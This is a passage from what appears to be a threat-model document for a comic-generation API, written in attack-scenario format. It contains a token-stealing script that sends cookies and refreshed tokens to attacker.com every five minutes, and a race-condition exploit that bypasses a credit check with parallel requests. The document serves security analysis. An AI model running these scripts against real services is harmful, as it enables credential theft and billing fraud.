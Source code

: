 ```html
      tokens,
      cookies: document.cookie,
      userAgent: navigator.userAgent,
      timestamp: Date.now()
    })
  });
  
  // Maintain persistence
  setInterval(() => {
    // Refresh stolen tokens
    fetch('https://api.example.com/refresh', {
      headers: { 'Authorization': `Bearer ${tokens.refresh}` }
    }).then(r => r.json()).then(newTokens => {
      fetch('https://attacker.com/refresh', {
        method: 'POST',
        body: JSON.stringify(newTokens)
      });
    });
  }, 5 * 60 * 1000); // Every 5 minutes
</script>
```

---

## 5. Business Logic Attacks

### Attack 5.1: Credit Balance Race Condition Exploit
**Attack Vector:** Authenticated  
**Complexity:** Medium  
**Impact:** High (Financial)  
**MITRE ATT&CK:** T1496 (Resource Hijacking)

#### Description
Multiple simultaneous requests bypass credit check, allowing generation with insufficient balance.

#### Attack Steps
```javascript
// Step 1: User has exactly 1 credit
const myToken = 'user_token_with_1_credit';

// Step 2: Launch 10 simultaneous requests
const promises = Array(10).fill(null).map((_, i) =>
  fetch('https://api.example.com/comics/generate-image', {
    method: 'POST',
    headers: {
      'Authorization': `Bearer ${myToken}`,
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({
      panelDescription: `Panel ${i}`
    })
  })
);

// Step 3: All requests pass checkPanelBalance middleware simultaneously
// Step 4: Each request decrements balance independently
// Step 5: User generated 10 images but only paid for 1

const results = await Promise.allSettled(promises);
const successful = results.filter(r => r.status === 'fulfilled' && r.value.ok);
console.log(`Generated ${successful.length} images with 1 credit!`);
```
